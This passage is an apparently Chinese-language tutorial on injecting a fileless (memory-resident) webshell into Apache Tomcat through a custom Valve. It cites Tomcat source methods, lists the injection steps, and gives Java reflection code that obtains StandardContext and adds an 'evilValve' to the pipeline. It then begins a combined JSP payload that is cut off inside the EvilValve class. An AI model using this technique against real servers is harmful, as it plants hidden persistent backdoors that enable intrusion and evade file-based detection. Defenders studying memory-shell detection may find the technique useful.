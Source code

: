 - org.apache.catalina.core.ContainerBase#addValve


![image](fileless-shell.assets/144636017-6411e9c5-0e51-43e0-b989-27889acc3a1e.png)

- org.apache.catalina.core.ContainerBase#pipeline


![image](fileless-shell.assets/144636054-a6a6d624-038e-48aa-8f50-dc54cd3b445f.png)

- org.apache.catalina.core.ContainerBase#getPipeline

![image](fileless-shell.assets/144636096-27ca076f-0b72-4b5b-bf78-ee75d3934157.png)


捋清思路

- 自定义valve -> 实现valve接口，重写invoke方法
- 添加valve -> this.pipeline.addValve(valve)
- 获取this.pipeline -> ContainerBase#getPipeline
- 调用getPipeline -> 继承ContainerBase类
- ContainerBase类 -> `public class StandardContext extends ContainerBase implements...`
- 获取StandardContext

代码实现

```java
ServletContext servletContext = request.getSession().getServletContext();
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
standardContext.getPipeline().addValve(evilValve);
```

代码整合如下

> ```jsp
> <%@ page import="java.io.IOException" %>
> <%@ page import="java.lang.reflect.Field" %>
> <%@ page import="org.apache.catalina.core.ApplicationContext" %>
> <%@ page import="org.apache.catalina.core.StandardContext" %>
> <%@ page import="org.apache.catalina.connector.Request" %>
> <%@ page import="org.apache.catalina.connector.Response" %>
> <%@ page import="org.apache.catalina.Valve" %>
> <%@ page contentType="text/html;charset=UTF-8" language="java" %>
> <%
>     class EvilValve implements Valve {
>         @Override
>         public Valve getNext() {
>             return null;
>         }
>         @Override
>         public void setNext(Valve valve) {
> 